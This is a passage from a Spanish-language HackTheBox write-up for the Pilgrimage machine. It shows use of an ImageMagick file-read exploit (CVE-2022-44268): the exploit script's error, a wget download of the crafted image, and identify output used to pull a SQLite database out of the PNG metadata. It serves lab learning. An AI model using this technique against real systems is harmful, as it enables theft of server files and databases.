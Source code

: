 Subiremos la imagen maliciosa en la aplicación web y obtendremos la URL de la imagen redimensionada.

A través del script de Python, al indicarle la URL de la imagen, se nos proporcionaba el siguiente mensaje de error. Esto es debido a que el archivo a querer listar se trata de un binario codificado actualmente en `Hex`, pero la función principal del script es descodificarlo en `Hex` para mostrarlo en `ASCII`.

```bash
❯ python3 CVE-2022-44268.py --url http://pilgrimage.htb/shrunk/67b3cfa7b9730.png
Traceback (most recent call last):
  File "/home/kali/Desktop/HackTheBox/Linux/Pilgrimage/Pilgrimage/CVE-2022-44268/CVE-2022-44268.py", line 48, in <module>
    main()
    ~~~~^^
  File "/home/kali/Desktop/HackTheBox/Linux/Pilgrimage/Pilgrimage/CVE-2022-44268/CVE-2022-44268.py", line 17, in main
    decrypted_profile_type = bytes.fromhex(raw_profile_type_stipped).decode('utf-8')
UnicodeDecodeError: 'utf-8' codec can't decode byte 0x91 in position 99: invalid start byte
```

Nos descargaremos la imagen en nuestro equipo y verificaremos a través de `identify`que en el campo `Raw profile type` se muestra el contenido del binario de la base de datos.

El valor inicial de `53514c69` corresponde a los primeros bytes de una base de datos SQLite, que empieza con la cadena **"**&#x53;QLit&#x65;**"** (en formato hexadecimal: `53 51 4c 69`).

```bash
❯ wget http://pilgrimage.htb/shrunk/67b3cfa7b9730.png
--2025-02-18 01:09:03--  http://pilgrimage.htb/shrunk/67b3cfa7b9730.png
Resolviendo pilgrimage.htb (pilgrimage.htb)... 10.10.11.219
Conectando con pilgrimage.htb (pilgrimage.htb)[10.10.11.219]:80... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 66260 (65K) [image/png]
Grabando a: «67b3cfa7b9730.png»

67b3cfa7b9730.png                                         100%[===================================================================================================================================>]  64,71K  --.-KB/s    en 0,1s    

2025-02-18 01:09:03 (546 KB/s) - «67b3cfa7b9730.png» guardado [66260/66260]

❯ identify -verbose 67b3cfa7b9730.png
Image:
  Filename: 67b3cfa7b9730.png
  Permissions: rw-rw-r--
  Format: PNG (Portable Network Graphics)
  Mime type: image/png
  Orientation: Undefined
  Properties:
    date:create: 2025-02-18T00:09:03+00:00
    date:modify: 2025-02-18T00:09:12+00:00
    date:timestamp: 2025-02-18T00:09:08+00:00
    png:bKGD: chunk was found (see Background color, above)
    png:cHRM: chunk was found (see Chromaticity, above)
    png:gAMA: gamma=0.45455 (See Gamma, above)
    png:IHDR.bit-depth-orig: 8
    png:IHDR.bit_depth: 8
    png:IHDR.color-type-orig: 6
    png:IHDR.color_type: 6 (RGBA)
    png:IHDR.interlace_method: 0 (Not interlaced)
    png:IHDR.width,height: 320, 240
    png:text: 4 tEXt/zTXt/iTXt chunks were found
    png:tIME: 2025-02-18T00:09:12Z
    Raw profile type: 

```